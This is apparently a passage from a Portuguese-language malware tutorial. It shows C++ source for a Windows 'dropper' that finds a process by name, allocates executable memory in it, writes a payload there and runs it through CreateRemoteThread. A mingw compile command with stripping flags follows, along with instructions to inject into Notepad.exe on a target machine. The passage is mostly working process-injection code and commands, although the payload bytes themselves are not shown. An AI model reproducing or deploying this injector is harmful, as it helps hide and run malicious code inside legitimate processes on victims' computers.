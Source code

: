 ```cpp
    while (proc) {
        if (strcmp(procName, pe32.szExeFile) == 0) {
            pid = pe32.th32ProcessID;
            break;
        }
        proc = Process32Next(hSnapshot, &pe32);
    }

    // fecha o handle aberto
    CloseHandle(hSnapshot);
    return pid;
}

int main(int argc, char* argv[]) {
    int pid = 0;
    HANDLE procH; // process handle
    HANDLE remoteT; // remote thread
    LPVOID remoteB; // remote buffer

    pid = findPID(argv[1]);

    // cria o handle para o processo
    procH = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));

    // aloca o buffer de memoria no processo remoto
    remoteB = VirtualAllocEx(procH, NULL, payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // copia o payload entre os processos
    WriteProcessMemory(procH, remoteB, payload, payload_len, NULL);

    // Iniciamos uma thread com o payload copiado
    remoteT = CreateRemoteThread(procH, NULL, 0, (LPTHREAD_START_ROUTINE)remoteB, NULL, 0, NULL);

    CloseHandle(procH);
    return 0;
}
```

Podemos compilar o programa:

```bash
$ x86_64-w64-mingw32-gcc dropper.cpp -o dropper.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```


Uma vez com o executável na máquina Windows alvo, podemos abrir uma aplicação qualquer, no exemplo utilizei o `Notepad.exe` e invocar o dropper passando o nome do processo.

